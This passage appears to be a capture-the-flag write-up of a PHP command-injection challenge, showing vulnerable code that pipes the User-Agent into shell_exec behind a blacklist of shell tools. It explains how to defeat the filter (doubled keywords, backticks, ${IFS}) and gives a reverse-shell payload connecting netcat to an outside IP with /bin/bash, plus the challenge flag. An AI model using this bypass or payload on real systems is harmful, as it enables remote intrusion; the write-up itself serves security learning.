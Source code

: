 ```php
  </div>
</body>
</html>
```

The `username` cookie had to be admin and User-Agent was used in `shell_exec`.

```php
#filtering user agent
$blacklist = array( "tail", "nc", "pwd", "less", "ncat", "ls", "netcat", "cat", "curl", "whoami", "echo", "~", "+", " ", ",", ";", "&", "|", "'", "%", "@", "<", ">", "\\", "^", "\"", "=");
$user_agent = str_replace($blacklist, "", $user_agent);

shell_exec("echo \"" . $user_agent . "\" >> logUserAgent");
```

No matter how many times I sent a request, the user-agent value did not concat into `logUserAgent` file.

So, I tried a different approach, bypass `shell_exec`. 

1. Although the User-Agent is wrapped around quotes, it is still possible to execute commands. Ex: ``echo "`ls`"``
2. `str_replace` can be bypassed by wrapping the blacklisted text with the same text. Ex: `ecechoho` → `echo`
3. Space can be bypassed by using `${IFS}`

With all the information above, I put it in the User-Agent.

```
User-Agent: `nncc${IFS}35.197.26.91${IFS}9001${IFS}-e${IFS}/bin/bash`
```

![Untitled](/assets/img/20230502/Untitled9.png)

- Flag : `INTIGRITI{n0_XSS_7h15_m0n7h_p33pz_xD}`